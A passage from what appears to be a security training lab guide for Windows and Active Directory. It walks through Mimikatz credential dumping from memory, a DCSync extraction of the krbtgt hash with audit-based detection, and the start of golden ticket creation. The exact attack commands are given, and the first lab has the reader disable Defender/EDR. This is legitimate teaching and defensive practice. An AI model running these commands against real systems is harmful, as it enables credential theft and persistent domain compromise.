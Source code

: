 
## Lab Exercise Scenarios

### Lab 1: Basic Credential Dumping
**Objective:** Extract credentials from memory

1. Set up Windows 10 VM (disable Defender/EDR)
2. Create test user with known password
3. Log in as test user
4. Run Mimikatz as Administrator:
   ```powershell
   mimikatz # privilege::debug
   mimikatz # sekurlsa::logonpasswords
   ```
5. Observe extracted credentials (NTLM hash, potentially plaintext if WDigest enabled)

### Lab 2: DCSync Attack (Active Directory Lab)
**Objective:** Remotely extract domain credentials

**Prerequisites:**
- Active Directory domain
- Compromised Domain Admin account

**Steps:**
1. From non-DC machine with DA credentials:
   ```powershell
   mimikatz # lsadump::dcsync /user:krbtgt /domain:lab.local
   ```
2. Note krbtgt NTLM hash
3. On DC, enable audit policy:
   ```powershell
   auditpol /set /subcategory:"Directory Service Access" /success:enable
   ```
4. Repeat DCSync
5. Check Event ID 4662 on DC

### Lab 3: Golden Ticket Attack
**Objective:** Create persistent domain access

**Prerequisites:**
- krbtgt NTLM hash (from Lab 2)
- Domain SID

1. Get domain SID:
   ```powershell
   whoami /user
   # Remove last RID (e.g., S-1-5-21-XXX-XXX-XXX-1001 → S-1-5-21-XXX-XXX-XXX)
   ```

2. Create golden ticket:
   ```powershell
   mimikatz # kerberos::golden /user:FakeAdmin /domain:lab.local /sid:S-1-5-21-XXX-XXX-XXX /krbtgt:HASH /ptt
   ```
